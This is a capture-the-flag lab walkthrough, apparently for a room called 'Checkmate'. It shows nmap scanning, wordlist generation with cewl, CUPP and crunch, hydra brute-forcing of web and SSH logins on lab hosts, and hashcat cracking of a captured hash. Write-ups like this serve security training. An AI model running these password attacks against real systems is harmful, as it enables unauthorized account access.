# Checkmate

At first I scan the website using nmap
```cmd
nmap ip
```




I found this page 



### Marco deployed a firewall at firewall.thm:5001 but kept default credentials.

Like this 



Then then not know username and password. So I use hydra to know username and password

```cmd
hydra -l admin   -P /usr/share/wordlists/rockyou.txt   -f -V -t4   -s 5001   firewall.thm http-post-form   "/login:username=^USER^&password=^PASS^:Invalid credentials."
```

Finally found the username and password



I get Dashboard



Get in the Dashboard.



For Flag2

In this lab Marco is built a panel and he use the panel password is using website word.

To get the password use cwel

```cmd
cewl -d 2 -m 6 --lowercase -w keywords.txt http://10.49.185.5:5002/ 
```



I find the username and password 

```cmd
hydra -l marco -P keywords.txt -f -V -t4 -s 5002 10.49.185.5 http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials."
```

I found the username and password.



For flag3

At First I collect the useranma and password using CUPP

First need to download CUPP

```cmd
git clone https://github.com/Mebus/cupp.git
```

and use 

```cmd
python3 cupp.py -i
```





Use hydra to find username and password

```cmd
hydra -l marco -P marco.txt -f -V -t4 -s 5003 10.49.185.17 http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials."
```

I found username and password



Enter login with username and password



copy the hash and create txt file to check 

```cmd
echo "d34a569ab7aaa54dacd715ae64953455d86b768846cd0085ef4e9e7471489b7b" > hash.txt
```

and to check use hash 

```cmd
hashcat -m 1400 hash.txt /usr/share/wordlists/rockyou.txt
```



For flag4

To create a custom password using crunch

```cmd
crunch 13 13 0123456789! -t Security20%%! > passlist.txt; \
crunch 15 15 0123456789! -t Excellence20%%! >> passlist.txt; \
crunch 15 15 0123456789! -t Innovation20%%! >> passlist.txt; \
crunch 12 12 0123456789! -t Digital20%%! >> passlist.txt; \
crunch 10 10 0123456789! -t Cloud20%%! >> passlist.txt
```

To brute force using hydra
```cmd
hydra -l marco -P passlist.txt -f -V -t4 10.49.185.17 ssh
```

Found password

